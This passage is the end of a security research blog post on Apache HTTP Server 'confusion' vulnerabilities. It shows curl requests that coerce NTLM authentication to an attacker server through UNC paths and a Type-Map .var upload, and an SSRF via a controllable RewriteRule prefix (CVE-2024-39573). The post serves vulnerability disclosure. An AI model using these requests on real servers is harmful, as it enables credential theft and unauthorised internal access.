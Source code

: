 $ curl http://server/%5C%5Cattacker-server/path/to


✔️ Triggered via Type-Map
In the Debian/Ubuntu distribution of Httpd, Type-Map is enabled by default:

AddHandler type-map var
By uploading a .var file to the server and setting the URI field to a UNC path, you can also force the server to coerce NTLM authentication to the attacker. This is also the second .var trick I proposed. 😉

⚔️ CVE-2024-39573 - SSRF via Full Control of RewriteRule Prefix
Lastly, when you have full control over the prefix of a RewriteRule substitution target in Server Config or VirtualHost is fully controllable, you can invoke mod_proxy and its sub-modules:

RewriteRule ^/broken(.*) $1
Using the following URL can delegate the request to mod_proxy for processing:

$ curl http://server/brokenproxy:unix:/run/[...]|http://path/to
But if administrators have tested the rule properly, they would realize that such rules are impractical. Thus, originally it was reported along with another vulnerability as an exploit chain, but this behavior was also treated as a security boundary fix by the security team. As the patches came out, other researchers applied the same behavior to Windows UNC and obtained another additional CVE.

Future Works
Finally, let’s talk about future works and areas for improvement in this research. Confusion Attacks are still a very promising attack surface, especially since my research focused mainly on just two fields. Unless the Apache HTTP Server undergoes architectural improvements or provides better development standards, I believe we’ll see more “confusions” in the future!

So, what other areas could be enhanced? In reality, different Httpd distributions have different configurations, so other Unix-Like systems such as the RHEL series, BSD family, and even applications that utilize Httpd might have more escapable RewriteRule, more powerful local gadgets, and unexpected symbolic jumps. These are all left for those interested to continue exploring.

Due to time constraints, I was unable to share more real-world cases found and exploited in actual websites, devices, or even open-source projects. However, you can probably imagine — the real world is still full of countless unexplored rules, bypassable authentications, and hidden CGIs waiting to be uncovered. How to hunt these techniques worldwide? That’s your mission!

Conclusion
Maintaining an open-source project is truly challenging, especially when trying to balance user convenience with the compatibility of older versions. A slight oversight can lead to the entire system being compromised, such as what happened with Httpd 2.4.49, where a minor change in path processing logic led to the disastrous CVE-2021-41773. The entire development process must be carefully built upon a pile of legacy code and technical debt. So, if any Apache HTTP Server developers are reading this: Thank you for your hard work and contributions!

以電子郵件傳送這篇文章
BlogThis！
分享至 Twitter
分享至 Facebook
分享到 Pinterest
沒有留言:
張貼留言
